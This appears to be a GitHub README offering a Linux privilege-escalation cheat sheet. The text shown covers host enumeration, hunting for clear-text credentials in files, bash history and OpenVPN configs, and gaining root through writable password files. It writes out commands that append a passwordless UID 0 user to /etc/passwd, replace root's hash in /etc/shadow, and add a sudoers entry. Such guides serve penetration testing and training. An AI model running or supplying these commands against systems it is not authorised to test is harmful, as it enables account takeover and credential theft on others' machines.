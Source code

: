 # Linux-Privilege-Escalation-Basics
Simple and accurate guide for linux privilege escalation tactics 

# Privilege Escalation Methods

- Basic System Enumeration
- Bash History
- OpenVPN Credentials
- Writable Password Files - /etc/passwd | /etc/shadow | /etc/sudoers
- SSH Private Keys 
- Kernel Expliots
- Sudo -l 
- Sudo CVE 
- Sudo LD_PRELOAD
- SUID Binaries
- Capabilities
- Cron Jobs
- NFS Root Squashing


# Basic System Enumeration
Structure : Linux Command # <Comment / Tip>
```
uname -a # What OS kernel are we using?
hostname # What is my hostname?
lscpu # What is our CPU architecture?
ls /home # Any Users? Can we access their home directories?
ls /var/www/html # Any web config files? Do they contain DB or user credentials?
ps aux | grep root # What services are running as root? Any cron jobs running specific files as root? Can we write to those files? 
netstat -tulpn # What is running? Are they bound to local host but not from the public? Possible port forwarding
ifconfig # What is our IP? Are we dual-homed?
find . -type f -exec grep -i -I "PASSWORD=" {} /dev/null \; # Any files that contains clear-text credentials?
locate pass | more # Any files with the name pass?

```
# Bash History
Structure : Linux Command # <Comment / Tip>
```
history # Any clear-text credentials? Any command for logging into services with the credentials?
cat /home/<user>/.bash_history # Can we see CLI history of other users?

```

# OpenVPN Credentials
Structure : Linux Command # <Comment / Tip>
```
locate *.ovpn # Any OpenVPN files with clear-text credentials?

```

# Writable Password Files
Structure : Linux Command # <Comment / Tip>
```
ls -la /etc/passwd # Do we have write access to passwd?
If write access is enabled on /etc/passwd # Add new user with UID & GID of 0 (Root) OR Remove the root password

   echo 'hacker::0:0::/root:/bin/bash' >> /etc/passwd
   su - hacker
   id && whoami
   
OR
   
  vi /etc/passwd
  Remote X (Password Holder) for root
  wg!
  su root
  id && whoami
  
ls -la /etc/shadow # Do we have write access to shadow?
If write access is enabled on /etc/shadow # Generate new password hash and replace root's password

   Run python -c "import crypt; print crypt.crypt('NewRootPassword')"
   Copy the output
   vi /etc/shadow
   Replace root's hash with the output that you generated
   wq!
   su root # Provide the new root password you generated (Example: NewRootPassword)
   id && whoami
  
ls -la /etc/sudoers # Do we have write access to /etc/sudoers?
If write access is enabled on /etc/sudoers | Add new sudo entry

   echo "username ALL=(ALL:ALL) ALL" >> /etc/sudoers # Replace "Username" with your current user (Example: www-data)
   sudo su
   id && whoami

   ```
